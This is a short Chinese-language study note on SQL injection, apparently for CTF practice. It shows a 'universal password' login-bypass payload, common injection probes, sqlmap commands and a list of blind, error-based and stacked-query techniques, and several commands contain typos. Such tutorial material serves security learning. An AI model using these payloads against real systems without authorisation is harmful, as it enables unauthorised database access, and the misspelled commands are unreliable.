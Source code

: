 ###  SQL万能密码

```sql
原验证登陆语句:
	SELECT * FROM admin WHERE Username= '".$username."' AND Password= '".md5($password)."'
输入 1' or 1=1 or '1'='1万能密码语句变为:
	SELECT * FROM admin WHERE Username='1' OR 1=1 OR '1'='1' AND Password='1' or '1'=1'

```

### <a name='可能存在注入的位置'>可能存在注入的位置</a>

1. 题目环境简单，直接很明显的有注入点·，如一个查询框、一个登录注册框或其它提示等。

2. 题目环境复杂，由较另页宜组成，就应该思考与数据库产生交互的地万，以从网页的功能入手。可能会有留言显示、密码修改等。

3. 其它，比如Cookie、User-Agentg等http头部参数

#### 判断一个HTTP请求是否存在SQL注入的方式

* **经典**：and 1=1 | and 2 > 1|or 1=1|or 1<1

* **数据库函数**：sleep(4)=1 | length(user())>3

* **特殊符号**：单引号`‘`双引号`“`

* **sqlmap**测试:

  ​	指定url和参数，通过调节測试等级，显示等级等作来测试成功率

  * sqlmap -u url
  * sqlmqp -u url --date"a=1&b=2"
  * sqlmap -u url --level 2
  * sqlmap -u url -v2

###   按照注入技术分类

#### 基于布尔的盲注

（if = > < ^ or and || && ascii/ord limit lieft substr/mid）

​	可以根据返回页面判断条件真假的注入

#### 基于时间的盲注

（sleep、benchmark(重复执行)、GET_LOCK（加锁），其它能引起延时的函数）

​	不能根据页面返回内容判断任何信息，用条件语句查看时间延迟语句是否执行来判断

#### 基于报错的注入

（floor ExtractValue  UpdateXml  exp）

​	即页面会返回错误信息，或者吧注入的语句的结果直接返回在页面中

#### 堆叠查询注入

（ 各种执行函 drop create show handler desc）
